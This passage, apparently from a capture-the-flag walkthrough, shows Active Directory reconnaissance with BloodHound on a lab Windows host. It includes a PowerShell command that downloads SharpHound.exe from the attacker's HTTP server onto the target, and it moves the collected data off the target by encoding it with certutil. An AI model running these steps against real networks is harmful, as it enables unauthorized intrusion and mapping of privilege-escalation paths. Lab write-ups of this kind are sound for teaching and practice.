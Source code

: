 The user is part of the _Service Accounts_ group. Let’s run bloodhound to see if there are any exploitable paths.

First, download [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) and setup a python server in the directory it resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, download the executable.

```text
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.45:5555/SharpHound.exe', 'C:\Users\svc-alfresco\Desktop\SharpHound.exe')
```

Then run the program.

```text
./Sharphound.exe
```

This outputs two files.

![](../images/max/1346/1*ojhjoWq6RMjo7cAvGkbV9A.png)

We need to transfer the ZIP file to our attack machine. To do that, base64 encode the file.

```text
certutil -encode 20200321162811_BloodHound.zip test.txt
```

Then output the base64 encoded file.

```text
type test.txt
```

Copy it and base64 decode it on the attack machine.

```text
echo -n "<base64-encoded-value>" | base64 -d > bloodhound-result.zip
```

Alright, now that we how the zipped file on our attack machine, we need to upload it to BloodHound. If you don’t have BloodHound installed on your machine, use the following command to install it.

```text
apt-get install bloodhound
```
